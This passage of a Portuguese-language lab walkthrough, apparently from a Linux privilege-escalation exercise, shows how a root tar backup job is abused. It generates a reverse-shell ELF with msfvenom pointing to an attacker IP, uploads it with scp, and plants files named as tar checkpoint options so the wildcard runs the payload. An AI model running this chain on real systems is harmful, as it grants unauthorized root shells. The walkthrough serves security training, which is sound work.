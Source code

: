Esse script compacta todos os arquivos do diretório `/home/user` e salva no arquivo `/tmp/backup.tar.gz`.

Dando uma olhada na página **"GTFOBins"** e pesquisando `tar`. Descobrimos que o `tar` possui opções de linha de comando que permitem executar outros comandos como parte de um recurso de ponto de verificação.

![tar](passo10_tar.png)

Vamos então criar um payload que será executado quando o arquivo `/tmp/backup.tar.gz` for compactado e para isso vamos utilizar o `msfvenom`:

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Desktop/linuxprivesc                                                                                      08:22:41
╰──➤ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.18.20.23 LPORT=4444 -f elf -o shell.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
Saved as: shell.elf
```

Agora vamos enviar o playload para a maquina algo utilizando o `scp` e adicinar a permissão de execução para o arquivo:
```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Desktop/linuxprivesc                                                                                      08:12:29
╰──➤ scp -oHostKeyAlgorithms=+ssh-rsa /root/Desktop/linuxprivesc/shell.elf user@10.10.84.63:/home/user/shell.elf
user@10.10.84.63's password:
shell.elf

user@debian:~$ chmod +x shell.elf
```

Vamos também criar um arquivo com o nome `--checkpoint=1` e `--checkpoint-action=exec=/home/user/shell.elf` para que o `tar` execute o arquivo `shell.elf` quando compactar o arquivo `backup.tar.gz`:

```bash
user@debian:~$ touch /home/user/--checkpoint=1
user@debian:~$ touch /home/user/--checkpoint-action=exec=shell.elf
```

<div class="page"/>
